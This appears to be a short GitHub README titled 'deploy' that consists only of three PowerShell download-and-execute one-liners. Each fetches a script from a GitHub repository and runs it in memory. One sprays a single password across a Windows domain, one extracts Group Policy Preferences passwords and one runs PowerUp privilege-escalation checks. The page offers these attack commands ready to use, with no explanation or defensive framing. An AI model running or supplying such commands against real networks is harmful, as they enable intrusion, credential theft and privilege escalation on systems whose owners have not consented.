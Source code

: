 # deploy

IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/launchsilo/deploy/main/DomainSpray.ps1') ; Invoke-DomainPasswordSpray -Password Password!1

IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/launchsilo/deploy/main/Get-GPPPassword.ps1') ; Get-GPPPassword | ForEach-Object {$_.passwords} | Sort-Object -Uniq#

IEX (New-Object net.WebClient).downloadstring("https://raw.githubusercontent.com/launchsilo/deploy/main/PowerUp.ps1") ; Invoke-AllChecks
